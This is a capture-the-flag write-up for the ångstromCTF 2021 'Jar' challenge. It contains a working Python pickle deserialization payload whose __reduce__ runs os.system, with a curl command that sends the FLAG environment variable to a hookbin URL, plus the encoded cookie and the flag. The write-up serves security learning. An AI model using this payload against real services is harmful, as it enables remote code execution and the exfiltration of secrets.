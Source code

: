 # Jar

## Description

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co) to get you warmed up.

[jar.py](jar.py), (pickle.jpg)[pickle.jpg], [Dockerfile](Dockerfile)

Hint: The Python [documentation](https://docs.python.org/3/library/pickle.html) for pickle has this big red box... I hope it's not important.

## Solution

In the documentation we find this:

![](img1.png)

By analyzing the code we can see that the flag is in the EV `FLAG`, so we need to inject some code that reads this EV and send it to us somehow 

So let's use [Hookbin](https://hookbin.com) to send the flag back to us and use this [code](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd) to assemble the cookie we need to pass to the website

```python
import cPickle
import sys
import base64

DEFAULT_COMMAND = "curl -X GET https://hookb.in/####################?$(echo $FLAG)"

COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

print(base64.b64encode(cPickle.dumps(PickleRce())))
```

```
contents=Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIEdFVCBodHRwczovL2hvb2tiLmluL0xnUGd4MHdnbHF1V2trcmF5TzNuPyQoZWNobyAkRkxBRyknCnAyCnRScDMKLg==
```
Going to Hookbin we find this request

![](img2.png)

#### **FLAG >>** `actf{you_got_yourself_out_of_a_pickle}`
